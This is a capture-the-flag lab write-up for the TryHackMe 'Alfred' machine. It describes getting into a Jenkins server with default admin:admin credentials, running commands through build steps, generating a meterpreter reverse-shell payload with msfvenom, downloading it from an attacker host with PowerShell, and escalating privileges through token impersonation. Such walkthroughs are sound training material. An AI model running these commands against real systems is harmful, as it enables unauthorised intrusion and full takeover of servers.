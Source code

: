 # TryHackMe - Alfred
---

## Enum
Initially, when enumerating for open ports we can see that the ports 80, 8080 and 3389 are open. 
On port 8080 we can see that there's an automation server running which is called "Jenkins" (https://www.jenkins.io/).

## Weak creds
This sever has a login page on the index page:
![]("https://github.com/MarkSeliter/Writeups/img/Pasted image 20210827190250.png")

The credentials are: `admin:admin` 

# Exploiting Jenkins
When enumerating the server, I notice that I can run commands to the server by entering them to the projects and running the project.
The process for runnign commands on the server is as follows: Jenkins -> project -> Configure -> "Build" tab -> enter command -> apply/ save -> Build Now.
![](/img/Pasted image 20210827190250.png)

# Initial access
I generated a meterpreter payload and transfered it to the server using powershell.
msfvenom:
```txt
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -a x86 lhost=10.10.218.77 lport=4444 -f exe -o met.exe
```
powershell download:
```txt
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.218.77:8888/met.exe', 'C:\Program Files (x86)\Jenkins\workspace\project\met.exe')"
```

![](/img/Pasted image 20210828114210.png)

Then just running "met.exe" using the same misconfiguration.

# User flag
![](/img/Pasted image 20210828115051.png)

# PrivEsc
When running whoami /priv we can see that we have some interesting priviliges like debug and SetImpersonate:
![](/img/Pasted image 20210828115240.png)

We'll be using the "incognito" module from metasploit in order to leverage this.
`meterpreter> load incognito`

Then we list what tokens we can impersonate:
`list_tokens -u/-g`

In this case we see that we can impersonate `BUILTIN\Administrators`. So we'll impersonate that token:
![](img/Pasted image 20210828115908.png)
(if shell commands dont work then migrate to a system process).

# Root flag
![](/img/Pasted image 20210828120047.png)
